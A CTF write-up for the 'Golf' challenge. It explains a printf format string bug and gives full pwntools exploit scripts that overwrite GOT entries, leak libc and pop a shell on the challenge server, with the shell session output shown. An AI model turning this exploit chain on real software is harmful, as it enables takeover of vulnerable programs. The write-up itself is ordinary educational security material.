


# Golf
## Some challenges provide source code to make life easier for beginners. Others provide it because reversing the program would be too time consuming for the CTF. Still others, like this one, do it just for the memes.
 - author: Eth007
 - solves: 30

 This problem provides the interestingly formatted C source and the compiled binary.
 
 golf.c
 ```c
 #include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_(){setvbuf /* well the eyes didn't work out */
(stdout,0,2
,0);setvbuf
(stdin,0,2,
0);setvbuf(
stderr,0,2,
0)       ;}

main( ){ char  /* sus */
aa[       256
];;       ;;;
fgets(aa,256,
stdin ) ; if(
strlen (aa) <
11)printf(aa)
; else ; exit
(00       );}

/* i tried :sob: */
```
binary protections:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The code declares a 256 byte buffer, reads 256 bytes into the buffer via fgets and printfs the buffer without providing a format string. This a format string vulnerability, but the catch is that the vulnerability is only triggered if the provided string is less then 11 bytes less. The binary is no pie so the position of the GOT is fixed, and partial relro allows us to overwrite GOT entries. `main` terminates by called `exit(0);`, if we can overwrite the exit GOT entry with the address to main then we can infinitely trigger the printf vulnerability and pop a shell.

The printf function has a format specifier `%n` which writes the current number of bytes outputted into an `int *` provided in the argument list.

Looking at the printf specification [ibm](https://www.ibm.com/docs/en/zos/2.1.0?topic=functions-fprintf-printf-sprintf-format-write-data) or [microsoft](https://docs.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), the argument to format specifiers can be chosen using `%<number>$<fmt specififer>` syntax.

```c
#include <stdlib.h>
#include <stdio.h>
#include <assert.h>

int main(int argc, char ** argv) {
    int a = 0, b = 0;
    printf("four%2$n", &a, &b);
    assert(a == 0);
    assert(b == 4);
}
```



The specification also mentions that the width of an argument can be specified using the argument list using `%*<number>$<fmt specifier>`.

This can be abused by constructing a payload: `%*8$u%9$n\x00\x00\x00\x00\x00\x00\x00<address of main><address of exit GOT entry>`. That passes the strlen check and overwrites the exit GOT entry with main. Afterwards the libc address can be leaked by printing the dynamic pointers in the GOT table, and activiating a shell by overwriting the printf GOT entry with system and calling `printf("/bin/sh");`.

In order to determine the libc base address the libc exact libc version needs to be known. The problem does not provide the libc itself, but the libc can be found by leaking dynamic address and using a [libc searcher](https://libc.rip) to determine the libc version.

```python
from pwn import *

io = remote("golf.chal.imaginaryctf.org", 1337)
file = ELF("./golf")

def consume(n):
    r = 0
    print()
    while r < n:
        b = io.recv(n - r, timeout=0.1)
        r += len(b)
        print(f"\x1b[A\x1b[1Kprogress: {r/n:.4f}")

def build(fmt, a, b):
    return fmt.encode().ljust(0x10, b'\x00') + p64(a) + p64(b)

io.sendline(build("%*8$u%9$n", file.symbols["main"], file.got["exit"]))

consume(file.symbols["main"])
io.recv()

for (fname, addr) in zip(file.got.keys(), file.got.values()):
    io.sendline(build("%8$s:", addr, 0))
    leak = u64(io.recvuntil(b':')[:-1].ljust(8, b'\x00'))
    print(f"{fname}: {leak:x}")
```
this outputs:
```
__libc_start_main: 7fa95abccf90
__gmon_start__: 0
stdout: 7fa95ad966a0
stdin: 7fa95ad95980
stderr: 7fa95ad965c0
strlen: 7fa95ad316d0
printf: 7fa95ac0ac90
fgets: 7fa95ac2b630
setvbuf: 7fa95ac2dce0
exit: 40121b
```
The libc is always loaded at a page aligned address (a page is 4096 bytes), which means the lower 12 bits of the libc base address guaranteed always be zero. This enables libc searchers because the lower 12 bits of function address within the libc can be used to identify the exact libc version.

Using [libc.rip](https://libc.rip) yields two results, now we can leak the address of printf and use the static offset to calculate the libc base.
```python
from pwn import *

io = remote("golf.chal.imaginaryctf.org", 1337)
file = ELF("./golf")

def consume(n):
    r = 0
    print()
    while r < n:
        b = io.recv(n - r, timeout=0.1)
        r += len(b)
        print(f"\x1b[A\x1b[1Kprogress: {r/n:.4f}")

def build(fmt, a, b):
    return fmt.encode().ljust(0x10, b'\x00') + p64(a) + p64(b)

io.sendline(build("%*8$u%9$n", file.symbols["main"], file.got["exit"]))

consume(file.symbols["main"])
io.recv()

for (fname, addr) in zip(file.got.keys(), file.got.values()):
    io.sendline(build("%8$s:", addr, 0))
    leak = u64(io.recvuntil(b':')[:-1].ljust(8, b'\x00'))
    print(f"{fname}: {leak:x}")

io.sendline(build("%8$s:", file.got["printf"], 0))

leak = u64(io.recvuntil(b':')[:-1] + b"\x00\x00")
print(f"leak: {leak:x}")
base = leak - 0x61c90
print(f"base: {base:x}")
system = base + 0x52290
print(f"system: {system&0xFFFFFFFF:x}")

io.sendline(build("%*8$u%9$n", system&0xFFFFFFFF, file.got["printf"]))

consume(system&0xFFFFFFFF)

io.sendline(b"/bin/sh\x00")
io.interactive()
```
The reason for the custom consume function instead of using io.recvall() is that io.recvall() was unable to fully catch all of the incoming information and when io.interactive() is called the terminal freezes as it attempts to process and display a few million bytes of whitespace. As a result the exploit takes a few minutes to run because it has to first make sure to recieve all the bytes from the server before continuing.
```
progress: 1.0000
__libc_start_main: 7f4e15dc1f90
__gmon_start__: 0
stdout: 7f4e15f8b6a0
stdin: 7f4e15f8a980
stderr: 7f4e15f8b5c0
strlen: 7f4e15f266d0
printf: 7f4e15dffc90
fgets: 7f4e15e20630
setvbuf: 7f4e15e22ce0
exit: 40121b
leak: 7f4e15dffc90
base: 7f4e15d9e000
system: 15df0290
progress: 1.0000
[*] Switching to interactive mode
$ ls
chal
flag.txt
$ cat flag.txt
ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}
$ 
[*] Interrupted
[*] Closed connection to golf.chal.imaginaryctf.org port 1337
```
## Flag: ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}